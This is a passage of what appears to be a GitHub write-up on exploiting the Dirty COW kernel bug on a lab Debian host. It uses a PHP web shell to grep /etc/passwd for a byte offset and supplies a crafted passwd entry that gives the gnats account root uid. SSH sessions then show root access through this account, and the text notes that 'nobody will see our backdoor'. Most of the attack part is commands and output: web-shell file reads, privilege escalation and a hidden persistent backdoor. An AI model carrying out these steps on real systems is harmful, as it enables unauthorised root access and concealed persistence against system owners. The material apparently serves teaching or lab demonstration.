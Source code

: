 ### :mag_right: Find the offset

```
shell.php3?c=grep -b gnats /etc/passwd
596:gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh

shell.php3?c=grep -bo x:41:41 /etc/passwd
602:x:41:41
```

The offset off the data to write is `602` and the string (data) is "`azmJb5b.yzpAA:00:00:Gnats  Bug-Reporting  `" (beware to spaces).

### :cow: Let's exploit Dirty COW :turtle:

<details><summary>Click to expand</summary></details>

:one: We can connect in SSH with the `gnats` user and whe are "root" :dart:

```
$ ssh gnats@192.168.1.33
gnats@192.168.1.33's password: <= 1234
# id
uid=0(root) gid=0(root) groups=0(root)
```
:two: The `root` account is still unchanged, **nobdy will see our "backdoor"** :dart:

```
$ ssh user@192.168.1.33
user@192.168.1.33's password: <= live
user@debian:~$ sudo su -
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# :question: FAQ

## :grey_question: When the race condition occur?

See the [Dirty COW Demo by Jake Wilson and Nimesha Jayawardena](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html)
